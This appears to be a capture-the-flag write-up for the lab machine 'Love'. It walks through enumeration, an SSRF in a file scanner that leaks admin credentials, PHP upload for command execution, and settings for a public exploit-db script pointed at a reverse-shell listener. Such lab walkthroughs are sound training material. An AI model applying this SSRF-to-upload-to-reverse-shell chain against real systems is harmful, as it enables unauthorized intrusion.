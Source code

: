 ```
-----------------
END_TIME: Sat Jul 16 21:02:26 2022
DOWNLOADED: 18448 - FOUND: 47
```

- When browsing in the includes we find this page  
![image](https://user-images.githubusercontent.com/96747355/179379775-1c59ce47-cbcf-423a-a422-bfa3461d4ad3.png)
- if we lookup "voting systen sourcecodester" on google we get [this app on codester](https://www.sourcecodester.com/php/4808/voting-system-php.html) and [this exploit](https://www.exploit-db.com/exploits/49846)

## Port 443

- We can try to check out the certificate  
![image](https://user-images.githubusercontent.com/96747355/179380357-a520d24a-825d-4f3a-a493-e2bb6723271f.png)  
- We get some useful info to keep aside  
```
ValentineCorp
love.htb
staging.love.htb
roy@love.htb
```
- We get a new subdomain this way  

## Port 80

- We can access the new subdomain through port 80 
- We get a free file scanner with a demo option  
![image](https://user-images.githubusercontent.com/96747355/179380522-fe5268ba-4ff5-413f-932e-44cb15518522.png)  
- I tried to see with http://127.0.0.1 but if we set up a python serv we could try to see if it actually fetches a file, and it does  
![image](https://user-images.githubusercontent.com/96747355/179380875-afb0f194-35f8-4ab0-bd32-0d348cd10e7c.png)  
- What if we try one of the port like 5000 (I got a forbidden when trying to access it previously) 
- It works! We get creds for the admin panel!!  
![image](https://user-images.githubusercontent.com/96747355/179380902-6b7ddb83-cb1b-4fe4-baf7-14a8900c2292.png)  
- If we connect we get an admin panel  
![image](https://user-images.githubusercontent.com/96747355/179381037-4950fc4f-9d77-4378-b511-73aa7b0fe7cb.png)  
- In the Voters menu we can upload a file
- we make a info.php file with a whoami command inside  
![image](https://user-images.githubusercontent.com/96747355/179381057-da497368-6337-48aa-aad8-356bb63a73a3.png)  
- Let's check in the images folder (we found it previously with dirb) if it gets there.  
![image](https://user-images.githubusercontent.com/96747355/179381076-b5999848-49ae-4093-88f9-a0ee847c5965.png)  
- It does and if we click on it our command is executed  
![image](https://user-images.githubusercontent.com/96747355/179381081-63a79619-b22d-48d4-bd17-a4f166020a7c.png)  
- If we try to execute oneliners we might need to encore our shells because it is not working as is.
- I decided to have a look at other exploits for the voting system now that we are authenticated. And I could find [this one](https://www.exploit-db.com/exploits/49445)
- However when reading the script you will notice that the urls are not the proper one for us. Here is how to modify the begining of the script for it to work  
```
IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.3" # Reverse shell IP
REV_PORT = "4444" # Reverse port 
# --------------------------------

```